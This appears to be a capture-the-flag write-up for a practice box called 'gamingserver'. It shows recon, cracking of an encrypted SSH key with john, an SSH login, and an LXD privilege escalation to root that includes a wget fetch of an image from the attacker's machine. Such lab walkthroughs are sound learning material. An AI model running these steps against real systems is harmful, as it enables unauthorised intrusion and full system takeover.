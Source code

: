 # recon
- nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```
- gobuster
```
/about.php (Status: 200)
/about.html (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

- port 80 httpserver
  - index.html: `<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`
  - where is `/arhives.html`
  - /uploads/dict.lst: a password list
  - /secret: contain RSA key encrypted with AES


# foot hold
so as you can see, we got a password list + ssh key (RSA) encrypted with AES. I guess one of the password in the list (`/uploads/dict.lst`) can be use to decrypt the ssh key. We can then use ssh key to gain foot hold one victim server.

let start with convert encrypted ssh key to a format that john can understand. then use john to crack the password. we will use as our password list.
```console
kali@kali:~/THM/gamingserver$ sudo python /usr/share/john/ssh2john.py secretKey s > ssh2john.txt
kali@kali:~/THM/gamingserver$ sudo john --wordlist=dict.lst ssh2john.txt
.
.
Press 'q' or Ctrl-C to abort, almost any other key for status
<something>          (secretKey)
1g 0:00:00:00 DONE (2020-09-02 14:47) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
```
now lets use to `openssl` to decrypt `secretKey`
```console
kali@kali:~/THM/gamingserver$ openssl rsa -in secretKey -out gamingserver_key
Enter pass phrase for secretKey:
writing RSA key
```
what are we waiting for let ssh to the victim server. Grab the user flag
```console
kali@kali:~/THM/gamingserver$ ssh john@$IP -i gamingserver_key
Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
```
# root
```console
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
lxd !! I have seen it so many time. if you dont know what LXD is pls do some research by yourself, Also check this for step by step lxd exploit [link](https://www.hackingarticles.in/lxd-privilege-escalation/)


so what are we waiting for. let get root!!

```console
john@exploitable:~$ wget http://<kali IP>:8080/myalpine.tar.gz
2020-09-02 19:04:23 (1.01 MB/s) - ‘myalpine.tar.gz’ saved [3199169/3199169]
john@exploitable:~$ ls
myalpine.tar.gz  user.txt
john@exploitable:~$ lxc image import myalpine.tar.gz --alias kurohat
Image imported with fingerprint: 19d278b8c78857a750fb2589c3addb3fa4a4b11fbb2c2b28275400e3a60fbb79
john@exploitable:~$ lxc init kurohat ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:~$ lxc start ignite 
john@exploitable:/mnt$ lxc exec ignite /bin/sh # bash will also work but this server do not have /bin/bash
~ # id
uid=0(root) gid=0(root)
```
now let move to the mount poin `/mnt/root/` and grab the root flag